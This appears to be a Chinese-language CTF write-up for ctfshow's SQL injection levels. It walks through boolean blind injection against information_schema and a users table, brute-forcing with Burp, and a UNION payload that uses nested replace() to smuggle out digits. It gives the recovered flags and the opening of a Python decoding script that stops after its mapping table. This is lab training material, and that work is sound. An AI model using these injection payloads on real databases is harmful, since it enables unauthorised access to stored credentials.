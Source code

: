 ```
1 '  and left((SELECT column_name FROM information_schema.columns WHERE table_schema=database() and table_name='ctfshow_user4' LIMIT 2,1),8)='password' --+
```




```
查数据

select password from ctfshow_user4 where username = 'flag'

//长度45
1 ' and (SELECT length(password) from ctfshow_user4 where username = 'flag' LIMIT 0,1) = 45; --+


//
substr(database(),1,1)='p';
1 ' and substr((SELECT password from ctfshow_user4 where username = 'flag' LIMIT 0,1),1,1) = 'c'; --+
...
```
数据利用brup暴力破解出来的
![Pasted image 20240810195651.png](/img/user/picture/Pasted%20image%2020240810195651.png)
![Pasted image 20240810195725.png](/img/user/picture/Pasted%20image%2020240810195725.png)

得到flag
`ctfshow{4a02cc1a-8c70-4d6d-800a-ab1f15790c6a}`



# WEB174 无过滤注入4 （字符替换法）

由于这一关没有办法显示有数字的内容，所以我们想办法讲数字替换为其他字符

![Pasted image 20240810232311.png](/img/user/picture/Pasted%20image%2020240810232311.png)

所以我么可以用replace函数进行替换
==replace函数的用法： replace(原字符串，被替换的字符串，要替换成的字符串)==

```
0 ' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'0','_a'),'1','_b'),'2','_c'),'3','_d'),'4','_e'),'5','_f'),'6','_g'),'7','_h'),'8','_i'),'9','_j') from ctfshow_user4 where username='flag'--+
```

得到：
```
ctfshow{_i_f_a_b_bf_jb-c_gd_f-_eb_bd-_j_a_i_h-_e_g_a_f_f_bf_jd_e_d_e}
```

使用下面python脚本还原
```python
def restore_password(encoded_password):
    # 创建映射表，将替换的字母还原为数字
    mapping = {
        '_a': '0',
        '_b': '1',
        '_c': '2',
        '_d': '3',
        '_e': '4',
        '_f': '5',
        '_g': '6',
        '_h': '7',
        '_i': '8',
        '_j': '9'
    }
```